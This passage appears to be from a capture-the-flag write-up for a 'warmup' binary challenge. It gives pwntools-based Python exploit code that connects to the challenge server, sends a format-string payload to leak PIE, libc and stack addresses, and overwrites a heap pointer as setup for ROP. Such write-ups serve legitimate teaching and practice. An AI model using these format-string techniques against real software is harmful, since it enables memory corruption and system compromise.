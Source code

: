 That works, albeit slowly<sup>2</sup>. We'll replace it all with constants for now, culminating in this current script:
```python
from pwnscripts import *
from re import findall
context.binary = 'warmup'
context.libc_database = '../libc-database'
context.libc = 'libc-2.23.so'
def start(s: bytes):
    r = remote('192.46.228.70', 32337)
    r.sendlineafter('want? ', '0')
    r.sendafter('name: ', s)
    for _ in range(3): r.recvline()
    return r,r.recvline()
def findnum(s: bytes): return int(findall(b'[0-9]+', s)[0])
def show_money(): # name is a bit of a misnomer, this tries to grab the money displayed at the start of a round
    r.recvuntil('Your money: ')
    return findnum(r.recvline())
def Round(bet: int, choice: int):
    r.sendlineafter('(= 0 to exit): ', str(bet))
    r.sendlineafter('choice: ', str(choice))
    return findnum(r.recvline())

# Step 0: find printf() offsets
@context.quiet
def printf(s: bytes):
    r,rtr = start(s)
    r.close()   # prevent xinetd from booting us
    return rtr
PIE_ret = 0xE9F # the constant 1.5 lowest bytes for the PIE address we're leaking
PIE_offset  = 11#fsb.find_offset.PIE(printf, offset=PIE_ret)
money_offset= 13#fsb.find_offset.PIE(printf, offset=0x20)  # this should correspond with the calloc pointer to `player`
libc_offset = 29#fsb.find_offset.libc(printf, offset=context.libc.symbols['__libc_start_main_ret']&0xfff)
stack_offset= libc_offset+2
```
Now, we'll need to accomplish ROP.
## How about that ROP?
We'll start the remote connection by extracting all of the ASLR leaks mentioned above.
```python
# step 1: leak PIE+heap; overwrite the ptr to money with a ptr to .bss[buf].
context.binary.symbols['buf'] = 0x202058
r, infoleak = start('%{}c%{}$hhn||%{}$p,%{}$p,%{}$p\0'.format(
                    context.binary.symbols['buf']&0xff,
                    money_offset, PIE_offset, libc_offset, stack_offset)
              )
PIE_leak, libc_leak, stack_leak = unpack_many_hex(infoleak.split(b'||')[1])
context.libc.calc_base('__libc_start_main_ret', libc_leak)
context.binary.address = PIE_leak - PIE_ret
log.info('PIE: %s' % hex(context.binary.address))
log.info('Libc:%s' % hex(context.libc.address))
log.info('Stack return addr: %s' % hex(stack_ret := stack_leak-0xe0)) # bruteforce 0xe0 on remote...
```
I'm cheating a bit here by omitting how<sup>3</sup> I obtained the magic number `0xe0`. In any case, we've now essentially leaked everything, while also modifying `player->money` to point to `.bss[buf]`.
